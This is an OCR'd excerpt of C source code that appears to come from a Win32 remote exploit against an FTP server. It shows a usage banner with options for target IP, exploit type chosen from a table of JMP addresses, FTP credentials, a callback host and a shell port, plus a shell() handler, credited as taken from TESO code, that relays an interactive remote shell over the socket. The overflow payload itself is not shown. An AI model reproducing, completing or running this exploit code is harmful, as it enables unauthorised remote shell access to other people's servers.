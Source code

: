     void usage(char *p)
    {
        int i;
        printf( "Usage:\t%s\t<-i ip> <-t type>\n"
            "\t\t[-u user] [-p pass] [-d dir]\n"
            "\t\t[-f ftpport] [-c cbhost] [-s shellport]\n\n"
            "[type]:\n" , p);
        for(i=0;i<sizeof(targets)/sizeof(v);i++)
        {
            printf("\t%d\t0x%x\t%s\n", i, targets[i].dwJMP, targets[i].szDescription);
        }
    }

    /* ripped from TESO code and modifed by ey4s for win32 */
    void shell (int sock)
    {
        int     l;
        char    buf[512];
        struct  timeval time;
        unsigned long   ul[2];

        time.tv_sec = 1;
        time.tv_usec = 0;

        while (1)
        {
            ul[0] = 1;
            ul[1] = sock;

            l = select (0, (fd_set *)&ul, NULL, NULL, &time);
            if(l == 1)
            {
                l = recv (sock, buf, sizeof (buf), 0);
                if (l <= 0)
                {
                    printf ("[-] Connection closed.\n");
                    return;
                }
                l = write (1, buf, l);
                if (l <= 0)
                {
                    printf ("[-] Connection closed.\n");
                    return;
                }
            }
            else
            {
                l = read (0, buf, sizeof (buf));
                if (l <= 0)
                {
                    printf("[-] Connection closed.\n");
                    return;
                }
                l = send(sock, buf, l, 0);
                if (l <= 0)
                {
                    printf("[-] Connection closed.\n");
                    return;
                }
            }
        }
    }

